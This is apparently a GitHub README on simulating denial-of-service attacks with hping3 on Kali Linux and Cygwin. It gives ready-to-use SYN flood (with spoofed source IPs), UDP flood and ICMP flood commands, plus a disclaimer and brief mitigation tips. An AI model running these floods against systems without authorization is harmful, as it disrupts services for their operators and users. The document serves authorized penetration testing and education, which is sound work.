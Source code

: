 # 🌐 DoS Attack Simulation Using Hping3 🚀

This repository demonstrates how to perform a **Denial of Service (DoS)** attack simulation using the `hping3` tool on **Kali Linux** and **Windows OS**. 🛠️ The content is intended for educational and research purposes only. **Misuse of this information for malicious purposes is strictly prohibited.** ❌

---

## ⚠️ Disclaimer

This project is intended for **ethical hacking** and **penetration testing** on authorized systems with proper permissions. 🛡️ Unauthorized use of these techniques is illegal and punishable by law. ⚖️ Use this knowledge responsibly.

---

## 🤔 What is Hping3?

Hping3 is an open-source packet generator and analyzer. 📦 It is used for crafting and sending custom TCP/IP packets and testing network security. 🔐 It can simulate attacks such as DoS or DDoS, flood attacks, and vulnerability testing.

---

## ✅ Requirements

### Tools & Platforms
- 🛠️ **Hping3**: Pre-installed on Kali Linux. For Windows, you need to install Cygwin to use Hping3.
- 💻 **Kali Linux** (or any Linux distribution with Hping3 installed)
- 🖥️ **Windows OS** (for simulating attacks with Cygwin)

### Target System
- 🎯 A test system or virtual machine authorized for penetration testing purposes.

---

## 🛠️ Installation

### On Kali Linux 🐉
Hping3 comes pre-installed on Kali Linux. If not, you can install it with:
```bash
sudo apt update && sudo apt install hping3
```

### On Windows 🪟
1. Download and install [Cygwin](https://www.cygwin.com/). 📥
2. During the installation, select the `hping3` package from the repository.
3. Complete the installation and ensure Hping3 is accessible from the terminal. ✅

---

## 📖 Usage

### General Hping3 Syntax
```bash
hping3 [options] <target IP>
```

### 🔥 Example Commands

#### 1. 🔗 SYN Flood Attack
Send a large number of SYN packets to the target to exhaust its resources:
```bash
hping3 -S --flood --spoof <spoofed IP> -p <target port> <target IP>
```

- `-S`: Send SYN packets.
- `--flood`: Send packets as fast as possible.
- `--spoof <spoofed IP>`: Spoof the source IP address (optional).
- `-p <target port>`: Target port number.

#### 2. 🌊 UDP Flood Attack
Send a flood of UDP packets to the target:
```bash
hping3 --udp --flood -p <target port> <target IP>
```

- `--udp`: Send UDP packets.
- `--flood`: Send packets as fast as possible.
- `-p <target port>`: Target port number.

#### 3. 📡 ICMP Flood Attack
Flood the target with ICMP packets:
```bash
hping3 --icmp --flood <target IP>
```

- `--icmp`: Send ICMP packets.- `--flood`: Send packets as fast as possible.

---

## 📝 Step-by-Step Simulation

### On Kali Linux 🐉
1. Open the terminal. 🖥️
2. Run the desired Hping3 command from the examples above. ✅

### On Windows 🪟
1. Open the Cygwin terminal. 📂
2. Run the Hping3 command in the Cygwin environment. ✅

---

## 🛡️ Mitigation Techniques

To protect against DoS attacks:
1. **Enable Firewalls**: Use tools like iptables or Windows Firewall to block unwanted traffic. 🔥
2. **Rate Limiting**: Implement rate-limiting techniques to restrict traffic. ⚖️
3. **Load Balancers**: Use load balancers to distribute traffic evenly. 🖥️
4. **Intrusion Detection Systems (IDS)**: Deploy IDS like Snort or Wazuh for monitoring malicious traffic. 🔍

---

## 🤝 Contribution

Feel free to submit pull requests to enhance the documentation or provide better use cases. 💡 Please ensure your contributions align with the ethical use of penetration testing tools. 🙌

---

## 📜 License

This project is licensed under the MIT License. See the LICENSE file for details. 📄
